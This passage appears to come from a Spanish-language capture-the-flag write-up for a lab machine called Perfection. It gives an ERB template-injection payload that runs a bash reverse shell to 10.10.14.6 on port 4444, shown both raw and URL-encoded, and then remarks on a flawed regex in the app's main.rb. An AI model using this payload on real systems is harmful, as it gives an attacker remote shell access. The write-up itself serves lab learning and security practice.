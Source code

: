 ```bash
<%= system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'") %>
```

```url-encode
%3c%25%3d%20%73%79%73%74%65%6d%28%22%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%36%2f%34%34%34%34%20%30%3e%26%31%27%22%29%20%25%3e
```

<div style="text-align: center;">
		<img src="/assets/images/Perfection/revShell.jpg" alt="Clicker-usernamePlayers" width="1000" oncontextmenu="return false;" />
</div>
<br>
Dando un vistazo al código de la aplicación, para ser mas especifico al fichero **main.rb** encuentro que la regex que se esta aplicando fue construida tal cual como fue planteada en la etapa de enumeración.

<div style="text-align: center;">
		<img src="/assets/images/Perfection/regexMainRb.jpg" alt="Clicker-usernamePlayers" width="1000" oncontextmenu="return false;" />
</div>
